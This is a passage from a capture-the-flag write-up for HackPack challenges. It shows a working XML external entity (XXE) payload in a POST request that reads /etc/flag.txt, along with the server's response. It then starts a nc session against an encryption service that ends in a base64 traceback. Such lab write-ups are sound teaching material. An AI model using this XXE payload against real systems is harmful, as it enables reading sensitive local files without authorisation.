 We change the `debug` cookie to `true` and we get a comment at the bottom of the
page: `  <!-- TODO: Delete flag.txt from /etc/ --></body>`

    :::text
    POST /? HTTP/1.1
    Host: custom-ui.cha.hackpack.club
    Content-Type: application/x-www-form-urlencoded
    Cookie: debug=false
    Content-Length: 200

    xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxez1rnx%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fflag.txt%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxez1rnx%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e

    <SNIP>
    <button style="background-color: flag{d1d_y0u_kn0w_th@t_xml_can_run_code?}; padding: 15px 32px;">
    <SNIP>

# Misc

## SSME

> Welcome to our Super Secure Message Encrypter (SSME - copyright pending)
> nc cha.hackpack.club 41704

We connect to the service. We encrypt the string `qq` and decode it.

    :::text
    $ nc cha.hackpack.club 41704
    [*] Welcome to our Super Secure Message Encrypter (SSME - copyright pending)
    [*] We use patented technology that only we have access to in order to safely encrypt your data
    [*] Please use this tool to encrypt/decrypt messages

    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > 1
    What would you like to encrypt? qq
    [+] Message encrypted: gANYAgAAAHFxcQAu


    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > 2
    Please enter the encrypted string here: gANYAgAAAHFxcQAu
    [+] Message decrypted: qq

Then we send a malformed input for the decryption, that generate an error:

    :::text
    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > 2
    Please enter the encrypted string here: gANYAgAAAHFxc
    Traceback (most recent call last):
      File "/usr/lib/python3.6/encodings/base64_codec.py", line 19, in base64_decode
        return (base64.decodebytes(input), len(input))
      Fle "/usr/lib/python3.6/base64.py", line 546, in decodebytes
        return binascii.a2b_base64(s)
    binascii.Error: Incorrect padding
